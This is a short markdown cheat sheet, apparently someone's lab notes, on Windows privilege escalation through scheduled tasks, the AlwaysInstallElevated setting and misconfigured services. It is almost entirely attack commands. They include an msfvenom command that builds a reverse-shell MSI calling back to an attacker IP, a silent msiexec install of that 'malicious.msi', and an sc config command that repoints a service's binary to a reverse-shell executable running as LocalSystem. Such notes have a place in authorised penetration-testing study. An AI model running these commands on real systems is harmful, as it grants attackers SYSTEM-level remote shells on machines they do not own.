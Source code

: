 ##List of tasks
schtasks<br>
##Info about specific task (eg. pathname)
schtasks /query /tn vulntask /fo list /v <br>
##Check write access
icacls c:\tasks\schtask.bat<br>
##try to run task
schtasks /run /tn vulntask<br>
## Check AlwaysInstallElevated<br>
## IF both of these are set good to go<br>

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer<br>
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer<br>
## Generate payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.13.22 LPORT=LOCAL_PORT -f msi -o malicious.msi<br>
## Execute
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi<br>

# Services
### If we can write to any location where service-executables are located, overwrite them and get a shell/session<br>
### Also, check for quotes on BINARYPATHNAME - property, if there are no quotes but spaces we can abuse this since space is argument separator

#### EG

BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe<br>
Can be intercepted as<br>

C:\MyPrograms\Disk arg1 arg2<br>
and so on<br>

Also, test accesschk if we can edit the service itself (check for SERVICEALLACCESS)<br>

## See Config
sc qc apphostsvc<br>
## Edit Config (Might Not Have Rights)<br>
sc config THMService binPath= "C:\Users\thm-unpriv\Desktop\rev-svc.exe" obj= LocalSystem<br>
## Registry
On registry editor goto:<br><br>

HKLM\SYSTEM\CurrentControlSet\Services\<br>
Imagepath = Path to run ObjectName = runner<br>
